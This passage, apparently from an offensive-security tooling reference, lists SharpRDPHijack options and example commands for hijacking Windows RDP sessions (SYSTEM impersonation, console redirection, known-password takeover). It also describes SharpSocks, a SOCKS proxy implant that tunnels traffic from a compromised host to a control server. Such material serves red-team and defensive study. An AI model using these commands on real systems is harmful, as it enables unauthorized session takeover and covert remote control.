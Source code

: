 - **Parameters**:
    - **`-tsquery=<host>`**: Query a host for RDP/TS session information.
    - **`-session=<ID>`**: Target session identifier.
    - **`-password=<User's Password>`**: Session password, if known.
    - **`-console`**: Redirect session to the console session.
    - **`-disconnect`**: Disconnect an active (remote) session.
- **Example Commands**:
    - **Impersonate NT AUTHORITY\SYSTEM to Hijack Session**:
        
        ```css
        SharpRDPHijack.exe --session=6
        
        ```
        
    - **Redirect to Console Session**:
        
        ```css
        SharpRDPHijack.exe --session=2 --console
        
        ```
        
    - **Hijack with Known User Password**:
        
        ```css
        SharpRDPHijack.exe --session=4 --password=P@ssw0rd
        
        ```
        
    - **Disconnect Active Session**:
        
        ```css
        SharpRDPHijack.exe --session=3 --disconnect
        
        ```
        
    - **Query Host for Session Information**:
        
        ```css
        SharpRDPHijack.exe --tsquery=localhost
        
        ```
        

## **SharpSocks and SharpSocksServer**

### **Description**

SharpSocks is a tunnellable HTTP/HTTPS SOCKS4a proxy written in C#. It consists of two main components: the SharpSocksServer and the client (implant side). The server is a .NET Core project with builds for Windows, Linux, and Docker, while the client is a .NET 4.0 project designed to run on the target, such as in memory in a PoshC2 implant. This tool is particularly useful for securely tunneling traffic from a compromised host to a control server.

### **SharpSocksServer Functionality**

- Acts as a SOCKS server to listen for incoming connections from the implant.
- Supports both HTTP and HTTPS protocols.
- Offers various configuration options including encryption key, session and payload cookies, socket timeout, and verbose logging.
- TLS support with the ability to replace the default certificate for HTTPS communication.
